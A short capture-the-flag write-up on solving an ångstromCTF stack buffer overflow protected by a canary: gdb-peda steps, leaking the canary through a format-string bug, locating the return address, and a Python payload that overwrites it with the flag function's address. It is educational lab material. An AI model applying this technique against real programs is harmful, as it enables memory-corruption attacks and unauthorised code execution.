


# Easy Canary Buffer Overflow 
_Just some tips to remeber how to resolve easy buffer overflows with canary. This challenge is from the ångstromCTF_

## Steps 📝
**1.  Check the typical "win" or "flag" function on the binary with gdb (it's recommended to have [PEDA](https://github.com/longld/peda) installed to see registers and the program instructions in a prettier way).**

To open the binary with gdb:
```
gdb binary
```
To see the differents functions on the binary: 
```
gdb-peda$ info functions
```



**2. Get "flag" function memory address**: 
```
gdb-peda$ info functions flag 
```




**3. Finding the canary to prepare the payload**:

First we should puts a breakpoint on the "vulnerable" method (for example gets or fgets)

```
gdb-peda$ disas main
```


```
gdb-peda$ b *0x000000000040093b ("gets" memory address)
```

Run the binary with gdb until reaching the breakpoint

```
gdb-peda$ run
```
Execute the next instruction of the program (it will call the "gets" where we have put the breakpoint and ask for an input, in this case we are going to write some 'A'):
```
gdb-peda$ ni
AAAAAAAAAAAAA
```
Then we have to look at the rsp register to see where our input has been stored ('A' in ASCII is 41): 
```
gdb-peda$ x/20gx $rsp
```


If we look closer we can see the value "0x6f54534ae2410d00", this "strange" value which is different from the others on the stack is the canary (8 bytes, the length of the word, that changes in every program execution), so we have to do the buffer overflow writing the exact same value on this position. 

As the canary changes in each execution we have to print it with a format string vulnerability in order to add it to the payload (in the "canary" binary we can make a format string vulnerability in the line "printf(strcat(name, "!\n"));"). To print it we should use some %p to see in which position the canary is printed, in this case is the position 17 (it is recommended to see some format strings [videos](https://www.youtube.com/watch?v=0WvrSfcdq1I)):


Now, we have the canary value which will be added to our payload. The next step is to overwrite the return address of the function in order to redirect the program to the "flag" function and get our flag. 


**4. Getting the return address of the function**

To get the return address of the function we have to put a breakpoint on the "ret" instruction:
```
gdb-peda$ breakpoint *0x400956
```
When the execution reachs the breakpoint we have to see the first position of the stack where is the returning address of the program is: 
```
gdb-peda$ x/gx $rsp
```


Finally to exploit the second "gets" with the bufferoverflow we check how many bytes we have to write until the canary and then until the return address where we will put the flag return address obtained on the first step of this guide:


So the payload will be: 56 chars until reach the canary, the canary obtained, 8 chars more and the flag function address (If you got a segfault in the `movaps XMMWORD PTR [rsp+0x40],xmm0` instruction you have to align the stack jumping to other ret instruction and then set the target address as you can see in the solution.py script)

```
payload = 'A'*56
payload += p64(int(canary, 16))
payload += 'A'*8
payload += p64(MAIN_RET)
payload += p64(FLAG_ADDRESS)
```


